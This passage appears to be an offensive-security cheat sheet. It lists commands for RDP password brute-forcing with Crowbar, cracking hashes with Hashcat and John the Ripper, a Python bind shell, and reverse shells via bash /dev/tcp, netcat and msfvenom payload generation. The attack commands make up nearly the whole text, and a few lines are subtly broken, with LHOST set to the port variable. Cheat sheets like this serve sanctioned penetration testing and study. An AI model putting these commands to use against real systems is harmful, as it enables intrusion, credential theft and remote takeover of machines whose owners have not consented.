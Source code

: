 ### Crowbar
```bash
sudo apt install crowbar # version 0.4.1
iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt > ./rockyou-UTF8.txt
crowbar -b rdp -s $TARGET/32 -u administrator -C rockyou-UTF8.txt -n 1
```

## Offline
### Hashcat
```bash
hashcat -m 1000 -a 0 --force --show hashes.dump /usr/share/wordlists/rockyou.txt 
```

### John the Ripper
```bash0 
unshadow demo-passwd demo-shadow > demo-unshadow
john demo-unshadow --wordlist=/usr/share/wordlists/rockyou.txt
```

## Bind Shells
#### Python Bind Shell
```python
python -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",443));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

## Reverse Shells
#### Bash Reverse Shells
```bash
/bin/bash -i >& /dev/tcp/10.0.0.1/443 0>&1
```

#### Msfvenom Reverse Shells
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o rshell.exe
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f asp -o rshell.asp
msfvenom -p php/reverse_php LHOST=$LHOST LPORT=$LPORT -f raw -o rshell.php
msfvenom -p windows/shell_reverse_tcp LHOST=$LPORT LPORT=$LPORT -f hta-psh -o rshell.hta
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f powershell
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f msi -o rshell.msi
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LPORT LPORT=$LPORT -f war > rshell.war
```

#### Netcat Reverse Shells
```bash
sudo nc -nv 10.10.10.10 443 -e /bin/bash
nc -nv 10.10.10.10 443 -e "/bin/bash"
```

